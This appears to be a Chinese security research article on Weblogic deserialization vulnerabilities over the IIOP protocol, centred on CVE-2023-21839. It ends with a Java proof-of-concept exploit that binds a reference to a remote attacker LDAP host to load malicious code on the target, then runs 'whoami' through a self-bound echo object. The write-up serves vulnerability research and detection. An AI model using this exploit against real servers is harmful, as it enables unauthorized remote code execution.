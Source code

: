# 跨越语言的艺术：Weblogic序列化漏洞与IIOP协议

# 概述

Weblogic 的序列化漏洞主要依赖于 T3 和 IIOP 协议，这两种协议在通信交互的过程中存在如跨语言、网络传输等方面的诸多问题，会给漏洞的检测和利用带来许多不便。在白帽汇安全研究院的理念中，漏洞检测和利用是一项需要创造性的工作，应该以最简洁，高效的方式实现，这样才能确保漏洞的跨平台和实用性。因此，我们通过跨语言方式实现 IIOP 协议通信，以解决出现的序列化漏洞问题。 

在 Goby 中的 CVE-2023-21839 漏洞中，我们成功的实现了IIOP 协议跨语言通信的方案，实现了完美漏洞的检测与利用效果：

![](https://s3.bmp.ovh/imgs/2023/04/17/935fb2d9be4116c4.gif)

# Weblogic IIOP

**GIOP**是一种CORBA规范定义的协议，用于在分布式对象之间进行通信和交互，定义了对象请求、响应、异常、命名等基本的通信模式和协议规范。简单来说，GIOP就是一个抽象的协议标准，定义了通信模式和协议规范等信息，并不是具体实现的协议。

**IIOP**是一种实现了GIOP协议的TCP/IP协议栈，它使得CORBA对象能够通过Internet进行分布式通信和交互。简单来说，IIOP协议是在TCP/IP层面上实现的GIOP协议。

**RMI-IIOP**是一种Java远程方法调用协议的实现方式，它在IIOP协议之上扩展了Java RMI协议，使得Java对象可以通过IIOP协议进行分布式通信和交互。简单来说，RMI-IIOP协议就是在IIOP协议的基础上集合了RMI的远程调用Java对象的功能。（本文会将Weblogic部分RMI-IIOP作为IIOP协议来看待）

在文章《 [Weblogic IIOP 协议NAT 网络绕过](https://www.r4v3zn.com/posts/144eb4b6/#more)》中提到 “T3 协议本质上 RMI 中传输数据使用的协议， RMI-IIOP 是可以兼容 RMI 和 IIOP 的，所以在 Weblogic 中只要可以通过 T3 序列化恶意代码的都可以通过 IIOP 协议进行序列化”。对于启用了IIOP和T3协议的Weblogic而言，序列化数据协议传输的过程中是没有本质上区别的，同时在Weblogic通信过程中可能会出现NET网络问题。因此，为了解决Java序列化跨语言问题以及IIOP的网络问题，我选择了IIOP协议作为此次Weblogic序列化协议研究的重点。

# IIOP 攻击流程

![](https://s3.bmp.ovh/imgs/2023/04/17/69e301c7dcd91576.png) 

以CVE-2023-21839 Weblogic 序列化漏洞为例，在Weblogic的IIOP攻击流程中，攻击端首先初始化上下文信息，使用`rebind()`方法向注册端绑定恶意对象，再通过 `lookup()` 方法触发漏洞远程加载恶意地址中的存根对象。在加载的过程中，自定义的恶意对象执行自绑定的操作，将具有回显的对象绑定到Weblogic注册端上，之后远程调用该对象中的方法，达到攻击回显的目的。

POC如下：

```java
public class main {
    public static void main(String[] args) throws NamingException, RemoteException {
        ForeignOpaqueReference foreignOpaqueReference = new ForeignOpaqueReference("ldap://xxx.xxx.xxx.xxx:1389/exp", null);
        String iiop_addr = "iiop://10.211.55.4:7001";
        Hashtable<String, String> env = new Hashtable<String, String>();
        env.put("java.naming.factory.initial", "weblogic.jndi.WLInitialContextFactory");
        env.put("java.naming.provider.url", iiop_addr);
        Context context = new InitialContext(env);    // 初始化上下文，建立交互连接 LocateRequest LocateReply
        String bind_name = String.valueOf(System.currentTimeMillis()); 
        context.rebind(bind_name, foreignOpaqueReference);  // 绑定远程对象 rebind_any
        context.lookup(bind_name);  // 获取远程对象 resove_any
ClusterMasterRemote clusterMasterRemote = (ClusterMasterRemote)context.lookup("selfbind_name"); //获取自绑定的回显对象  
        System.out.println(clusterMasterRemote.getServerLocation("whoami"));  // 执行远程对象中的方法  
    }
}

```
